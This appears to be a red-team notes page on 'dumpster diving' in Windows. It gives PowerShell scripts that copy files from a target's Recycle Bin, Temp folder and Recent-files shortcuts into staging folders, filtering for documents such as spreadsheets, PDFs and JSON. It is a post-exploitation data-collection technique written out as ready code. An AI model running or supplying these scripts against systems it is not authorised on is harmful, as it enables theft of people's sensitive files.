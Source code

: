 # Dumpster Diving

## Target: Recycle Bin

We might suspect that there is sensitive information in the target system's **Recycle Bin**. The following PowerShell command is intended for that purpose—it copies all files found in the Recycle.Bin to a specified folder. It leverages COM objects.

```powershell
# Set the output folder path to save files
$destDir = "$env:USERPROFILE\Desktop\RecycleDump"
if (-not (Test-Path $destDir)) {
    New-Item -ItemType Directory -Path $destDir | Out-Null
}

# Enumerate files under Recycle.Bin and copy them to the $destDir.
$shell = New-Object -ComObject Shell.Application
$recycleBin = $shell.NameSpace('shell:::{645FF040-5081-101B-9F08-00AA002F954E}')
$recycleBin.Items() | ForEach-Object {
    $sourcePath = $_.Path
    $fileName = $_.Name
    $destPath = Join-Path $destDir $fileName

    if (Test-Path $sourcePath) {
        try {
            Copy-Item -Path $sourcePath -Destination $destPath -Force
        } catch {}
    }
}
```

## Target: Temp Folder

The `Temp` folder can contain files which store sensitive information. The following PowerShell command copies files with specific extensions from the Temp folder to a specified destination folder.

```powershell
# Set the output folder path to save files
$destDir = "$env:USERPROFILE\Desktop\TempDump"
if (-not (Test-Path $destDir)) {
    New-Item -ItemType Directory -Path $destDir | Out-Null
}

# Target file extensions to copy
$targetExtensions = @(".csv", ".docx", ".json", ".log", ".pdf", ".txt", ".xlsx")

# Enumerate temp directory and copy target files
$tempPath = [System.IO.Path]::GetTempPath()
Get-ChildItem -Path $tempPath -Recurse -File -ErrorAction SilentlyContinue | Where-Object {
    $targetExtensions -contains $_.Extension.ToLower() -and
    $_.Length -lt 100MB -and
    $_.LastWriteTime -gt (Get-Date).AddDays(-7)
} | ForEach-Object {
    $destPath = Join-Path $destDir $_.Name
    Copy-Item -Path $_.FullName -Destination $destPath -Force
}
```

## Target: Recent Folder

Sensitive information may also be hidden in the Recent folder. The following PowerShell command copies specific files from the Recent folder to the specified output directory.

```powershell
# Set the output folder path to save files
$destDir = "$env:USERPROFILE\Desktop\RecentDump"
if (-not (Test-Path $destDir)) {
    New-Item -ItemType Directory -Path $destDir | Out-Null
}

# Target file extensions to copy
$targetExtensions = @(".csv", ".docx", ".json", ".log", ".pdf", ".txt", ".xlsx")

# Enumerate the Recent folder and copy target files
$recentPath = "$env:APPDATA\Microsoft\Windows\Recent"
$shell = New-Object -ComObject WScript.Shell
Get-ChildItem -Path $recentPath -Filter *.lnk | ForEach-Object {
    try {
        $shortcut = $shell.CreateShortcut($_.FullName)
        $targetPath = $shortcut.TargetPath

        if (Test-Path $targetPath) {
            $extension = [System.IO.Path]::GetExtension($targetPath).ToLower()
            $size = (Get-Item $targetPath).Length
            # $lastWrite = (Get-Item $targetPath).LastWriteTime

            if (
                $targetExtensions -contains $extension -and
                $size -lt 100MB
            ) {
                $fileName = [System.IO.Path]::GetFileName($targetPath)
                $destPath = Join-Path $destDir $fileName
                Copy-Item -Path $targetPath -Destination $destPath -Force
            }
        }
    } catch {}
}
```